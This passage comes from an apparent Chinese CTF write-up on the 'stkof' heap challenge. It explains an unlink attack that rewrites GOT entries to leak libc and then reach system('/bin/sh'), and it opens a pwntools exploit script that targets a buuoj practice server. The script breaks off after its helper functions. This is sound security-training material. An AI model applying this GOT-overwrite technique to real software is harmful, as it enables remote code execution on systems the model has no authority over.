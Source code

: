 再来看看删除的函数，在free掉chunk后也对数组进行了置零处理。

```
__int64 sub_400B07()
`{`
  unsigned int v1; // [rsp+Ch] [rbp-74h]
  char s[104]; // [rsp+10h] [rbp-70h] BYREF
  unsigned __int64 v3; // [rsp+78h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  fgets(s, 16, stdin);
  v1 = atol(s);
  if ( v1 &gt; 0x100000 )
    return 0xFFFFFFFFLL;
  if ( !(&amp;chunk_array)[v1] )
    return 0xFFFFFFFFLL;
  free((&amp;chunk_array)[v1]);
  (&amp;chunk_array)[v1] = 0LL;
  return 0LL;
`}`
```

由于没有给我们输出功能，我们想要通过输出got表地址来得到libc的基址，就要想办法去输出chunk的内容，我们可以通过UNlink来拿到数组的修改能力，然后将free函数、puts函数、atoi函数的got表地址写入数组，然后通过修改函数对free函数的got表进行改写，将puts函数的plt表地址写入，这样当我们调用free函数时实际上就是调用了puts函数，就实现了输出功能。

如图三个函数的got表已经被我们写入数组。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0192f82c7b75649498.png)

修改完free函数的got表后，free掉chunk1，就能将puts函数的实际地址输出，就得到了libc的基址。这里有一个小地方可以稍微注意一下，接收数据时，他是先输出一个回车，然后输出地址，然后输出`'OK\n'`，最开始没注意，困在这好久，

有了libc后，就有了system函数的地址，写入atoi函数的got表，然后输入字符串`/bin/sh`即可getshell。

exp:

```
from pwn import *
from LibcSearcher import *

context(log_level='debug', arch='amd64', os='linux')

# io = process('./stkof')
io = remote('node3.buuoj.cn', 27229)
elf = ELF('./stkof')

free_got = elf.got['free']
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
atoi_got = elf.got['atoi']

def add(size):
    io.sendline(str(1))
    io.sendline(str(size))
    io.recvuntil('OK')

def edit(index, size, content):
    io.sendline(str(2))
    io.sendline(str(index))
    io.sendline(str(size))
    io.send(content)
    io.recvuntil('OK')

def delete(index):
    io.sendline(str(3))
    io.sendline(str(index))
```